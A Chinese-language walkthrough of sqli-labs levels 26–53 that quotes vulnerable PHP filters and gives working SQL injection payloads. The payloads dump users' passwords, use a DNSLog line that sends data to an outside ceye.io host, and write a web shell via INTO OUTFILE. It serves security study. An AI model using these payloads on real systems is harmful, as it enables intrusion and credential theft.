$id= preg_replace('/[#]/',"", $id); //Strip out #.
$id= preg_replace('/[ +]/',"", $id); //Strip out spaces.
# 严格匹配，防止多行注释，过滤select
$id= preg_replace('/select/m',"", $id); //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id); //Strip out spaces.
$id= preg_replace('/union/s',"", $id); //Strip out union
$id= preg_replace('/select/s',"", $id); //Strip out select
# 过滤union
$id= preg_replace('/UNION/s',"", $id); //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id); //Strip out SELECT
$id= preg_replace('/Union/s',"", $id); //Strip out Union
$id= preg_replace('/Select/s',"", $id); //Strip out select
return $id;
}union 和 select 没有忽略大小写 导致写了很多冗杂的规则，但还是可以轻易绕过
sElECT .....
uNion .....
空格上题的方法即可
方法有很多，这里不再赘述。
-4235'%0bUnIoN%0bALL%0bsElEct%0bNULL,(sElEct%0bGROUP_CONCAT(IFNULL(CAST(username%0bAS%0bNCHAR),0x20),0x7E,IFNULL(CAST(password%0bAS%0bNCHAR),0x20), 0x3c62723e)%0bFROM%0bsecurity.users%0bORDER%0bBY%0bid),NULL%0band%0b'1'='1
Less-27a
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&时间盲注& 布尔盲注 | id=”$id” |
仅仅是闭合方式，以及没有报错。其他都相同。
Less-28
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&时间盲注& 布尔盲注 | id=(‘$id’) |
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id); //strip out /*
$id= preg_replace('/[--]/',"", $id); //Strip out --.
$id= preg_replace('/[#]/',"", $id); //Strip out #.
$id= preg_replace('/[ +]/',"", $id); //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id); //Strip out spaces.
# 不区分大小写对union select进行过滤
$id= preg_replace('/union\s+select/i',"", $id); //Strip out UNION & SELECT.
return $id;
}
union select 会被过滤, 但是 union%0bselect并不会, 其实与前几题没什么区别这里也不赘述了
?id=-4235')%0bUNION%0bALL%0bSELECT%0bNULL,(SELECT%0bGROUP_CONCAT(IFNULL(CAST(password%0bAS%0bNCHAR),0x20),0x7E,IFNULL(CAST(password%0bAS%0bNCHAR),0x20),0x3c62723e)%0bFROM%0bsecurity.users%0bORDER%0bBY%0bid),3%0band%0b('1
Less-28a
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&时间盲注& 布尔盲注 | id=(‘$id’) |
还少了几个过滤，就不赘述了。
Less-29
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&时间盲注& 布尔盲注 | id=’$id’ |
# 获得请求的字符串,即你输入的语句
$qs = $_SERVER['QUERY_STRING'];
$hint=$qs;
// 模拟tomact JSP
$id1=java_implimentation($qs);
// apache的特性当相同参数有两个时接受后一个
$id=$_GET['id'];
//echo $id1;
whitelist($id1);
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if($row)
{
输出账号密码
}
else
{
报错
}
function java_implimentation($query_string)
{
$q_s = $query_string;
# 将字符串分割为数组
$qs_array= explode("&",$q_s);
# 对数组遍历
foreach($qs_array as $key => $value)
{
# 取数组前两个字符,如果为id就返回
$val=substr($value,0,2);
if($val=="id")
{
$id_value=substr($value,3,30);
return $id_value;
echo "<br>";
break;
}
}
}
function whitelist($input)
{
// 正则表达式含义为匹配数字, 如果全部为数字无事发生, 否则执行hacked.php
$match = preg_match("/^\d+$/", $input);
if($match)
{
//echo "you are good";
//return $match;
}
else
{
header('Location: hacked.php');
//echo "you are bad";
}
}
开始页面没什么特别的，关键是login.php。因为我们如果正常输入的话，是绝对会被java_implimentation()和whilist拦截，所以我们必须想办法绕过。
漏洞也就在java_implementation上，只要遇到id它便结束循环返回数组，也就说我们可以使用两个参数，第一个id=数字，使其绕过函数，第二个函数由于apache的特性，会被读取。这个方式叫做参数污染。
即用户输入这样的语句:
index.php?id=1&id=2
Apache PHP 会解析最后一个参数
Tomcat JSP 会解析第一个参数
login.php?id=1&id=-1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(username,password SEPARATOR 0x3c62723e) FROM users)--+
Less-30
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&时间盲注& 布尔盲注 | id=”$id” |
与Less29没有区别
Less-31
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&时间盲注& 布尔盲注 | id=(“$id”) |
与Less-32无本质区别
Less-32
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&时间盲注& 布尔盲注 | id=’$id’ |
function check_addslashes($string)
{
// 将 \ 替换为 \\, 不太明白为什么时6个\\\\\\
$string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string); //escape any backslash
// 将'替换为\'
$string = preg_replace('/\'/i', '\\\'', $string); //escape single quote with a backslash
// 将"替换为/"
$string = preg_replace('/\"/', "\\\"", $string); //escape double quote with a backslash
return $string;
}
宽字节注入
这个题目使用了宽字节注入
MySQL 在使用 GBK 编码的时候，会认为两个字符为一个汉字，例如 %aa%5c 就是一个 汉字。因为过滤方法主要就是在敏感字符前面添加 反斜杠 \，所以这里想办法干掉反斜杠即可。
1. %df 吃掉 \
具体的原因是 urlencode(') = %5c%27，我们在%5c%27 前面添加%df，形 成%df%5c%27，MySQL 在 GBK 编码方式的时候会将两个字节当做一个汉字，这个时候就把%df%5c 当做是一个汉字，%27 则作为一个单独的符号在外面，同时也就达到了我们的目的。
2. 将 \' 中的 \ 过滤掉
例如可以构造 %5c%5c%27 的情况，后面的%5c会被前面的%5c 给注释掉。这也是 bypass 的一种方法。
本关卡采用第一种 %df 宽字节注入来吃掉反斜杠，下面直接丢 payload 吧：
id=-1%df' UNION SELECT 1,2,(SELECT GROUP_CONCAT(username,password SEPARATOR 0x3c62723e) FROM users)-- +Less-33
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&报错注入&时间盲注& 布尔盲注 | id=’$id’ |
function check_addslashes($string)
{
$string= addslashes($string);
return $string;
}这次过滤语句变味了addslashes，我们需要了解下它的功能。
ddslashes() 函数返回在预定义字符之前添加反斜杠的字符串。
| 预定义字符 | 转义后 |
|---|---|
| \ | \‘ |
| ‘ | ' |
| “ | " |
该函数可用于为存储在数据库中的字符串以及数据库查询语句准备字符串，和 Less-32 的函数功能是差不的，依旧可以使用宽字节进行注入。
注入天书：使用 addslashes(),我们需要将 mysql_query 设置为 binary 的方式，才能防御此漏洞
Less-34
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 联合注入&报错注入&时间盲注& 布尔盲注 | username=’$uname’ |
$uname = addslashes($uname1);
$passwd= addslashes($passwd1);
mysql_query("SET NAMES gbk");
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
if($row){
输出结果;
}
else{
报错
}
与上题没有区别,只是请求方式改为了POST
uname=-1%df' UNION SELECT 1,(SELECT GROUP_CONCAT(username,password SEPARATOR 0x3c62723e) FROM users)#&passwd=123
注意，不知道为什么在文本框输入以及POSTMAN发送都无法成功，语句一模一样，难道是因为经过url编码的问题吗。
此外还有一个方法在注入天书以及国光的博客中。之后再研究以下。
Less-35
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&报错注入&时间盲注& 布尔盲注 | id=$id |
$id=check_addslashes($_GET['id']);
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
function check_addslashes($string)
{
$string = addslashes($string);
return $string;
}
额,过滤还是老套路,但是这次竟然没有闭合,导致过滤语句直接没用了….。直接给payload吧
-1 UNION SELECT 1,(SELECT GROUP_CONCAT(username,password SEPARATOR 0x3c62723e) FROM users),3#
Less-36
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&报错注入&时间盲注& 布尔盲注 | id=’$id’ |
$id=check_quotes($_GET['id']);
function check_quotes($string)
{
$string= mysql_real_escape_string($string);
return $string;
}
这一关主要考查了 Bypass MySQL Real Escape String，mysql_real_escape_string 会检测并转义如下危险字符：
| 危险字符 | 转义后 |
|---|---|
| \ | \ |
| ‘ | ' |
| “ | " |
我们之前的思路完全是可行的
id=-1%df' UNION SELECT 1,2,(SELECT GROUP_CONCAT(username,password SEPARATOR 0x3c62723e) FROM users)-- +
Less-37
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 联合注入&报错注入&时间盲注& 布尔盲注 | id=’$id’ |
$uname = mysql_real_escape_string($uname1);
$passwd= mysql_real_escape_string($passwd1);
与Less-34类似，我们可以使用一样的思路
uname=1%df' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x7e,(SELECT MID((IFNULL(CAST((password) AS NCHAR),0x20)),1,54) FROM security.users),0x7e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe&passwd=123
小总结
经过三天还是四天来着，我也忘记了，反正可算搞完提升了，最近在学java和kali之类的，而且还在上课，所有精力没办法全放在这。完成了总归是好了。碎碎念结束，
下面我们捋一下我学到了那些东西。
首先，我们我们学到了报文头部的注入点，以及当他们有base64解密时应当怎么做。
然后就是对于注释符的过滤，很简单简单闭合就可，比如：
?id=1' and '1' = '1之后便是二次注入，二次注入是什么呢？简单的说就是通过注册之类的方式先将注入语句写入数据库当中，不直接的进行注入，而是在其他地方调用这个语句，比如改密码，由此运行这个语句，从而完成了注入。
and与or以及各种关键词被过滤了，很多种过滤语句都有一种问题——没有循环，过滤一次就完了，这种时候我们就可以进行双写来绕过。又或者它的过滤条件不够充分，出现使用大小写就绕过的情况，所以我们使用正则表达式的时候将**/i**加上。至于or和and可以用&&和||进行代替。
空格的绕过就有很多替代，比如我常用的%0b啊，其他的看我Less-26的解题。
参数污染，也是一种很很巧妙的绕过，只要靠的就是apache的特性，当遇到相同的参数时，总是取最后一个。
宽字节注入，使用条件为GBK编码，会认为两个字符为汉字，而数据库并不在意数字直接忽略，由此使用%df与/拼接，完美绕过addslashes和mysql_real_escape_string。
总结完毕，看起来不多，但是在构造payload时总是遇到各种情况，就是无法正常运行，主要是有些浮躁，没有考虑的完全清楚就去构造了，之后还应该注意。争取在之后的练习改正。与君共勉。
Stacked Injection
堆叠注入
本次的注入的主题为堆叠注入。那么什么是堆叠注入呢
MySQL 的命令行中，每一条语句以;结尾，这代表语句的结束，如果在注入过程中在;后面添加要执行的 SQL 语句的话，这种注入方式就叫做堆叠注入 (stacked injection) 。

这很好理解，写过sql语句的都应该理解原理。
与 union select 联合查询相比，堆叠查询更加灵活，可以执行任意的 SQL 语句。
但是他仍然有缺陷。
- 并不是每一个环境下都可以执行，可能受到 API 或者数据库引擎。
- 在 Web 中代码通常只返回一个查询结果，因此，堆叠注入第二个语句产生的错误或者结果只能被忽略
这个就是为什么我们尝试用 union select 联合查询的原因，使用堆叠注入前，我们还需要了解数据库的相关信息才可以，如表名、列名等
DNSLog 数据外带
SQL注入一般分为报错注入和盲注，盲注的又分为布尔盲注和时间盲注。
当我们发现一个站点存在一个没有数据回显的注入点进行注入时，只能采取盲注，这种注入速度非常慢，需要一个一个字符猜解，而且很容易搞挂网站，这时候我们就需要寻找一种快速有效的方法来获取数据。
此时我们就可以利用DNS来快速的获取数据，当然我们也可以在无回显的命令执行或者无回显的SSRF中利用
特点：速度快，能够绕过某些防护软件的限制
DNS
计算机网络的内容，这里不赘述了，简单地说想要得到域名所映射的IP地址，需要DNS协议进行解析。
前提条件
- Windows环境：
所以我们需要搭建Windows环境下的SQLILABS环境。
- DNSLog：
我们传输的数据传输到哪？如何查看？这就需要DNSLog的帮助。
这里给大家我正在使用的DNSLog网站，当然还可以自己搭建，如果有兴趣可以自己去网上查找教程。
- MySQL 开启 load_file()
这里说一下我遇到的坑，我一开始始终无法将DNS请求发送出去，用Wireshark抓包也无法抓到，最终通过下面的文章解决。如果你遇到了和我一样的问题，不妨看一下。
https://zhuanlan.zhihu.com/p/259904021
UNC路径
load_file 函数在 Linux 下是无法用来做 DNSLog 攻击的，因为在这里就涉及到 Windows 的 UNC 路径。
其实我们平常在Widnows中用共享文件的时候就会用到这种网络地址的形式
UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器。UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。UNC路径就是类似\softer这样的形式的网络路径
格式：
\\servername\sharename
其中 servername 是服务器名，sharename 是共享资源的名称。
目录或文件的 UNC 名称可以包括共享名称下的目录路径，格式为：
\\servername\sharename\directory\filename
Less-38
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&报错注入&时间盲注& 布尔盲注 | id=’$id’ |
我们在上面说明了一些基础知识，现在我们通过题目开始投注于实践。
老规矩先看源码，其实与之前区别不大，主要在于查询函数的区别
// 现在
mysqli_multi_query($con1, $sql)
// 从前
$result=mysql_query($sql);
执行一个 SQL 语句，或者多个使用分号分隔的 SQL 语句。
要获得执行结果中的第一个结果集，请使用 mysqli_use_result() 或 mysqli_store_result() 函数。 要读取后续的结果集， 请使用 mysqli_more_results() 和 mysqli_next_result() 函数。
源代码
if (mysqli_multi_query($con1, $sql))
{
/* store first result set */
if ($result = mysqli_store_result($con1))
{
if($row = mysqli_fetch_row($result))
{
输出账号密码
}
// 释放因为result所占用的内存(虽然这个语句备注了，但遇到不会的还是查一下吧)
// mysqli_free_result($result);
}
/* print divider */
// 向下获得结果集
if (mysqli_more_results($con1))
{
//printf("-----------------\n");
}
//while (mysqli_next_result($con1));
}
从源码中我们可以清晰看出，我们使用堆叠查询也只能获得一个结果，但是我们可以进行一些不需要看结果的操作，比如修改表，创建列之类的。
我们在这里就可以用，DNSLog数据外带。
步骤
?id= 1';SELECT LOAD_FILE(CONCAT('\\\\',(SELECT hex(user())),'.mysql.ip.port.k2y7z4.ceye.io\\abc'));--+
Hex 编码的目的就是减少干扰，因为域名是有一定的规范，有些特殊符号是不能带入的有。

然后进行hex解码即可。
因为我在网站无法使用，所以直接在命令行中进行了执行。
GETSHELL
国光提了一下，我也没仔细研究，以后再说
Less-39
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&报错注入&时间盲注& 布尔盲注 | id=$id |
仅仅闭合方式不同
Less-40
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&时间盲注& 布尔盲注 | id=(‘$id’) |
缺少了报错
Less-41
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| GET | 联合注入&时间盲注& 布尔盲注 | id=$id |
与LEss-40类似，缺少了报错盲注。
Less-42
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 报错注入&联合注入&时间盲注& 布尔盲注&堆叠注入 | id=‘$id’ |
首先在首页我们是无法进入其他页面的，他也提示我们直接在login进行注入。
老规矩先看源码。
login.php
$username = mysqli_real_escape_string($con1, $_POST["login_user"]);
$password = $_POST["login_password"];
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
if (@mysqli_multi_query($con1, $sql))
{
if($result = @mysqli_store_result($con1))
{结果}
else
报错
}
else{
报错
}
我们可以很明显的发现，username经过了过滤，但是password并没有，因而我们可以通过各种方式进行注入。
首先，我们来个常规的报错注入。
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x7E,(SELECT MID((IFNULL(CAST((column_name) AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="users" AND table_schema="security" LIMIT 0,1),0x7E,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe
````
此外还可以使用堆叠注入。
我们还可以使用万能密码
``` payload
1' or 1 -- +
登录成功后显示的用户为Dumb, 因为return $row[1];所以返回id=1的成员，即Dumb
然后我们看到了可以修改密码。查看以下源码
$username= $_SESSION["username"];
$curr_pass= mysql_real_escape_string($_POST['current_password']);
$pass= mysql_real_escape_string($_POST['password']);
$re_pass= mysql_real_escape_string($_POST['re_password']);
if($pass==$re_pass)
{
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
｝
第一反应和Less-24一样使用二次注入，但是我们没有注册，怎么办呢。
堆叠注入啊。我们完全可以从登录页面输入修改Dumb的用户名或者密码的注入语句，这样我们就可以在改密码的时候调用语句，形成二次注入。事不宜迟，我们试一下吧。
login_password=1' or 1 -- +
&login_user=
alter TABLE users modify COLUMN username varchar(2000);
UPDATE users SET username = "-1' UNION SELECT 1,2,(SELECT GROUP_CONCAT(username,password) FROM users)#"
WHERE username = "Dumb";&mysubmit=Login
嗯….上面语句在数据库中执行是可以的，但是输入后进入的页面用户还是dumb，原因未知。大家可以帮我看一下哪里出错了，反正就当一次脑洞了。
Less-43
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 报错注入&联合注入&时间盲注& 布尔盲注&堆叠注入 | id=(‘$id’) |
利用方式相同。
Less-44
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 联合注入&时间盲注& 布尔盲注&堆叠注入 | id=‘$id’ |
利用方式相同。缺少报错
Less-45
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 联合注入&时间盲注& 布尔盲注&堆叠注入 | id=（‘$id’） |
Less-46
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注&报错 | order by $sort |
与之前的都有所不同
$sql = "SELECT * FROM users ORDER BY $id";
注入点变为order by，不能使用union等注入。
验证方式
- 方法一, 排序顺序
1// 正序排序 ?sort=1%20asc // 倒序排序 ?sort=1 desc ```` 两次结果的排序以id为标准，说明有order by * 方法二：rand（）排序 rand(true) 和 rand(false)的结果是不同的 ``` method ?sort=rand(true) ?sort=rand(false)
根据结果不同可以使用布尔盲注
- 延时验证
?sort=sleep(1)
?sort=(sleep(1))
?sort=1 and sleep(1)
延时时间为1*行数
payload
- 报错注入
1 AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT MID((IFNULL(CAST((table_name) AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x7365637572697479)LIMIT 0,1),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe
- 布尔盲注
?sort=rand(left(database(),1)>'r')
?sort=rand(left(database(),1)>'s')
- 延时注入
?sort=rand(if(ascii(substr(database(),1,1))>114,1,sleep(1)))
?sort=rand(if(ascii(substr(database(),1,1))>115,1,sleep(1)))
- procedure analyse注入
利用procedure analyse参数，我们可以执行报错注入。同时，在procedure analyse和order by之间可以存在limit参数，我们在实际应用中，往往也可能会存在limit后的注入，可以利用procedure analyse进行注入。
PROCEDURE ANALYSE()自 MySQL 5.7.18 起已弃用，并已在 MySQL 8.0 中删除
?sort=1%20%20procedure%20analyse(extractvalue(rand(),concat(0x3a,version())),1)
?sort=1%20%20procedure%20analyse(updatexml(rand(),concat(0x3a,version()),1),1)- 导入导出文件into outfile参数
将查询结果导入到文件当中
?sort=1%20into%20outfile%20%22c:\\wamp\\www\\sqllib\\test1.txt%22
那这个时候我们可以考虑上传网马，利用lines terminated by。
Into outtfile c:\\wamp\\www\\sqllib\\test1.txt lines terminated by 0x(网马进行16进制转换)
这里需要Web写入权限，之后在研究
Less-47
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注&报错 | order by ‘$sort’ |
仅仅是闭合方式不同
Less-48
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注 | order by $sort |
没有了报错，但是还可以使用布尔盲注和时间盲注以及intooutfile
Less-49
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注 | order by ’$sort‘ |
与上一题的区别闭合不同
Less-50
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注&报错&堆叠注入 | order by $sort |
请求方式从mysqli_qury变为了mysqli_multi_query，所以多了堆叠注入
详细可看Less-38
Less-51
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注&报错&堆叠注入 | order by ‘$sort’ |
闭合方式不同
Less-52
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注&堆叠注入 | order by $sort |
没有了报错
Less-53
| 请求方式 | 注入类型 | 拼接方式 |
|---|---|---|
| POST | 时间盲注& 布尔盲注&堆叠注入 | order by ‘$sort’ |
与上题区别在于闭合。
总结
哈哈，又完成了一个专题。主要是，这个专题的完成时间比第二个少多了，知识点少了不少。好，废话不多说，正式回顾。
首先，我们了解了堆叠注入：结束一个sql语句后继续构造下一条语句，这样就能构造各种各样的注入语句。而且我们的语句数量可以多个。而union只能使用一次。
但是我们必须知道，在各种网站中一般只会显示一个查询结果，所以查询数据我们还是一般使用union，堆叠注入可以用在对数据库的增删改。
我们还了解了，loadfile函数，它可以与堆叠注入结合，将查询结果发送到DNSLog中，但是只能在Windows环境下使用。
之后，我们还遇到了order by的注入，这个注入的不同之处在于无法使用union进行查询，而且根据参数的不同会导致结果的不同，所以我们一般会使用rand进行布尔盲注以及时间盲注。
此外还有procedure analyse注入，由此使用报错注入，这个报错注入一般使用在order by时，而且卡伊使用在limit之后
我们还了解了into outfilem，可以写入木马。